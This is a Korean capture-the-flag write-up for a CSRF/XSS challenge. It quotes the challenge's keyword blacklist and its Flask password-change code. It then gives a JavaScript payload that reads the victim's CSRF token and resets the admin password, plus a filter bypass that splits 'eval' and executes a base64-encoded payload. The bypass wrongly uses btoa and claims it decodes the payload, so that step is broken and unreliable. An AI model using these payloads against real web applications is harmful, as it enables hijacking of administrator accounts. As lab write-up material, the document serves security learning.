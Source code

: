 # csrf2 - change admin password2
- 난이도 : 중
- site : 금융보안원
## 풀이
```py

def xsscheck(content):
    content = content.lower()
    vulns = ["javascript", "frame", "object", "on", "data", "base","\\u", "embed", "&#", "alert","fetch","XMLHttpRequest","eval","constructor"]
    vulns += list("'\"")
    for char in vulns:
        if char in content:
            return True

    return False
```
백엔드 로직 확인
```py
@app.route("/changepw", methods=["GET"])
def changepw():
    if "userid" not in flask.request.args or "userpw" not in flask.request.args:
        flask.session["csrf_token"] = binascii.hexlify(os.urandom(16)).decode()
        return flask.render_template("changepw.html", msg="false", csrf_token=flask.session["csrf_token"])
    else:
        if "csrf_token" not in flask.request.args:
            return flask.render_template("changepw.html", msg="please input csrf token")

        
        if flask.request.args["csrf_token"] != flask.session["csrf_token"]:
            return flask.render_template("changepw.html", msg="csrf token not match!")

        userid = flask.request.args["userid"]        
        userpw = flask.request.args["userpw"]
                
        if userid == "admin":
            if flask.request.remote_addr != socket.gethostbyname("arang_client"):
                return flask.render_template("changepw.html", msg="admin password is only changed at internal network")
        
        if userid in ids:
            ids[userid] = userpw
            return flask.redirect(flask.url_for("login"))
        else:
            return flask.render_template("changepw.html", msg="user doesn't exist")

```
첫 접속 시 /changepw에 해당 계정에 대한 csrf_token을 hidden으로 생성, 그 후 비밀번호 변경 시 파라미터에 해당 csrf_token을 넣어 줘야함.

그럼 관리자가 특정 사이트를 접속 했을 때 관리자의 csfr_token을 읽고 그대로 파리미터에 넣으면 관리자 비밀번호를 임의의 비밀번호로 바꿀 수 있음. 

```js
fetch(`/changepw`)
  .then(response => response.text())
  .then(html => {
    // HTML에서 CSRF 토큰 파싱
    const parser = new DOMParser();
    const doc = parser.parseFromString(html, `text/html`);
    const csrfToken = doc.querySelector(`input[name="csrf_token"]`).value;

    // CSRF 토큰을 포함한 새로운 GET 요청
    const userid = `admin`;
    const userpw = `11`;
    const url = `/changepw?userid=${userid}&userpw=${userpw}&csrf_token=${csrfToken}`;
      console.log(url)
    return fetch(url);
  })
```
이러한 payload를 짜서 XSS에 담으면 관리자가 읽고 자기 csrf 토큰을 인자에 넣어 비밀번호를 11로 바꿀 것이다.

그럼 이 payload를 어떻게 우회해서 심을 것인가
```html
<script>
    self[`ev`+`al`](btoa(`base64로인코딩된payload`));
</script>
```
이렇게 하게 되면 base64로 인코딩된 payload가 btoa에 의해 다시 정상 자바스크립트로 풀리게 되고 그걸 eval이 실행해 해당 payload가 실행되게 된다.
